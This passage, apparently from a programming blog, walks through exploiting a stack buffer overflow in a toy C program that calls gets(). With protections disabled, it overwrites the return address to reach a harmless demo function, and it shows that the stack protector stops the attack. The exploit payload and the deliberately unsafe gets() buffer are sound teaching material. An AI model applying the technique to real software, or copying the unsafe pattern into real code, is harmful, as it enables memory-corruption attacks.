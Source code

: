 It reads a name into a buffer and prints it back out with a greeting.
While trivial, it's far from innocent. That naive call to `gets()`
doesn't check the bounds of the buffer, introducing an exploitable
buffer overflow. It's so obvious that both the compiler and linker
will yell about it.

For simplicity, suppose the program also contains a dangerous
function.

~~~c
void
self_destruct(void)
{
    puts("**** GO BOOM! ****");
}
~~~

The attacker can use the buffer overflow to call this dangerous
function.

To make this attack simpler for the sake of the article, assume the
program isn't using ASLR (e.g. without `-fpie`/`-pie`, or with
`-fno-pie`/`-no-pie`). For this particular example, I'll also
explicitly disable buffer overflow protections (e.g. `_FORTIFY_SOURCE`
and stack protectors).

    $ gcc -Os -fno-pie -D_FORTIFY_SOURCE=0 -fno-stack-protector \
          -o demo demo.c

First, find the address of `self_destruct()`.

    $ readelf -a demo | grep self_destruct
    46: 00000000004005c5  10 FUNC  GLOBAL DEFAULT 13 self_destruct

This is on x86-64, so it's a 64-bit address. The size of the `name`
buffer is 8 bytes, and peeking at the assembly I see an extra 8 bytes
allocated above, so there's 16 bytes to fill, then 8 bytes to
overwrite the return pointer with the address of `self_destruct`.

    $ echo -ne 'xxxxxxxxyyyyyyyy\xc5\x05\x40\x00\x00\x00\x00\x00' > boom
    $ ./demo < boom
    Hello, xxxxxxxxyyyyyyyy?@.
    **** GO BOOM! ****
    Segmentation fault

With this input I've successfully exploited the buffer overflow to
divert control to `self_destruct()`. When `main` tries to return into
libc, it instead jumps to the dangerous function, and then crashes
when that function tries to return — though, presumably, the system
would have self-destructed already. Turning on the stack protector
stops this exploit.

    $ gcc -Os -fno-pie -D_FORTIFY_SOURCE=0 -fstack-protector \
          -o demo demo.c
    $ ./demo < boom
    Hello, xxxxxxxxaaaaaaaa?@.
    *** stack smashing detected ***: ./demo terminated
    ======= Backtrace: =========
    ... lots of backtrace stuff ...
